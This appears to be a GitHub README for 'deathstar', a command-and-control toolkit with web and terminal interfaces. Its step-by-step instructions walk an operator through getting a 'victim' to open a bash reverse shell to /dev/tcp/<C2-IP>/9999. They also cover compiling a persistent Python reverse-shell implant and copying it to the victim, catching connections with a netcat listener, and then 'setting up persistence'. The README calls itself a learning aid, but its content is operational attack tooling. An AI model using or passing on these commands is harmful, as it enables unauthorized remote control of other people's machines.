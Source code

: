 # deathstar
Build and understand C2 infrastructure.

`Deathstar` has a webpage, or a terminal based C2 connection manager.

`stardestroyer.py` is one option of calling into the C2 server.

`compiler.sh` will compile `stardestroyer.py` into an EXE.

# Web based C2
![image](https://github.com/user-attachments/assets/2276420d-6134-48a0-8e2e-5e6a0ddef95b)

# CLI based C2
![image](https://github.com/user-attachments/assets/e574c863-f44f-47fb-ad8a-7c3148b247e2)

# Download deathstar

```git clone github.com/bwithe/deathstar```

# Web C2 server 
1. Start the server
  - `python3 deathstar-web.py`
2. Open link in web browser
  - `firefox 127.0.0.1:5000`
3. Have Victim connect to C2
  - Linux / MacOS
    - This will drop the moment the C2 server 'drops'
    - `bash -i >& /dev/tcp/<C2-IP>/9999 0>&1`
  - Python reverse shell
    - This will continue to connect to the C2 server even after it 'drops'
    - Modify the 'SERVER_IP = ' in `stardestroyer.py`   
    - `bash compiler.sh stardestroyer.py`
    - Copy `stardestoryer` to VICTIM
    - `chmod +x stardestroyer`
    - `./stardestroyer`
4. Start your listener 
  - `nc -nvlp 4444`
5. Forward the connection to your listener
  - On the webpage, type the IP of the listening device, and then click forward.
6. Catch the connection
  - Once you've caught the connection, begin setting up persistence.
7. Wash, rince, repeat.

# CLI C2 server
1. Start the server
  - `python3 deathstar-term.py`
2. Have Victim connect to C2
  - Linux / MacOS
    - This will drop the moment the C2 server 'drops'
    - `bash -i >& /dev/tcp/<C2-IP>/9999 0>&1`
  - Python reverse shell
    - This will continue to connect to the C2 server even after it 'drops'
    - Modify the 'SERVER_IP = ' in `stardestroyer.py`   
    - `bash compiler.sh stardestroyer.py`
    - Copy `stardestoryer` to VICTIM
    - `chmod +x stardestroyer`
    - `./stardestroyer`
3. Start your listener 
  - `nc -nvlp 4444`
4. Forward the connection to your listener
  - On the CLI, list the connections.
    - Select `2)` to forward.
    - Specify the `ID` of the `VICTIM` you'd like to forward.
    - Then, type the IP of your `LISTENING` device.
5.Catch the connection
  - Once you've caught the connection, begin setting up persistence.
6. Wash, rince, repeat.

